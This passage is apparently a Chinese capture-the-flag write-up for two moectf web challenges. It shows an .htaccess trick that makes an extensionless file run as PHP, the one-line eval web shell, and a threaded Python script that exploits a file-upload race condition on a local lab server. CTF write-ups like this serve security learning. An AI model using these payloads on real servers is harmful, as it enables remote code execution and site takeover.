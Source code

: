 ## 14 第十四章 御神关·补天玉碑

> **御神关任务：**
> **【补天】修复守护玉碑**
> **【斩魔】激活玉碑镇压魔心**

系统过滤`php`文件，提示是`apache`服务器，我们可以伪装成配置文件``.htaccess``。

```htaccess
<Files "payload">
    SetHandler application/x-httpd-php
</Files>
```

这个文件会把`payload`文件作为`php`文件执行。上传一句话木马，文件名为`payload`，不需要后缀。

```php
<?php eval($_POST['cmd']); ?>
```

用蚁剑连接` `，检查根目录文件发现`flag`。

```
moectf{e85c55a3-1c51-b895-1129-cf7737bca98a}
```

**还可以关注一下`.user.ini`以及图片马的用法。**

## 15 第十五章 归真关·竞时净魔

> **「魔心秽血已污染玉魄九成...归真关乃最后机缘...若败...万物皆灭...」**

[浅析条件竞争漏洞_竞争条件漏洞-CSDN博客](https://blog.csdn.net/qq_46150940/article/details/115639419)

文件上传弄了好久，还是注意审题，应该是条件竞争。`bp`不装插件不能多线程，所以我们用`py`。

```python
import requests
from concurrent.futures import ThreadPoolExecutor

upload_url = "http://127.0.0.1:23722/"
shell_url = "http://127.0.0.1:23722/uploads/shell.php"

def race_condition_attack(_):
    files = {
        "upload_file": (
            "shell.php",  
            "<?php fputs(fopen('pass.php','w'),'<?php phpinfo();?>');?>",  
        )
    }
    data = {"submit": "上传"}
    requests.post(upload_url, data=data, files=files, timeout=3)
    r = requests.get(shell_url, timeout=3)
    if r.status_code == 200:
        print("[+] 上传成功！Shell 已存在:", shell_url)

if __name__ == "__main__":
    with ThreadPoolExecutor(20) as pool:
        pool.map(race_condition_attack, range(200))  
```
